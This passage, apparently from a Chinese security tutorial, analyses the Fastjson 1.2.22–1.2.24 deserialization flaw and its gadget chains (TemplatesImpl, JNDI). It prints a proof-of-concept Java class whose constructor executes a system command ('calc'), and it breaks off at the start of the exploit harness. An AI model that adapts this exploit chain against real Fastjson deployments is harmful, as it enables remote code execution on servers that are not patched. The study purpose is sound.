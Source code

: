 ## 简介

对于Fastjson 1.2.22-1.2.24 版本的反序列化漏洞的利用，目前已知的主要有以下的利用链：

- 基于TemplateImpl；
- 基于JNDI（又分为基于Bean Property类型和Field类型）；



这里我使用的环境是JDK7u51

fastjson-1.2.24.jar，commons-codec-1.12.jar，commons-io-2.5.jar，unboundid-ldapsdk-4.0.9.jar

## 反序列化TemplatesImpl类+类加载触发

先看一下POC：

`Test.java`

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

`fastjson.java`

```java
package fastjson;

import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.*;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.codec.binary.Base64;
import org.apache.commons.io.IOUtils;


import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class fastjson {
```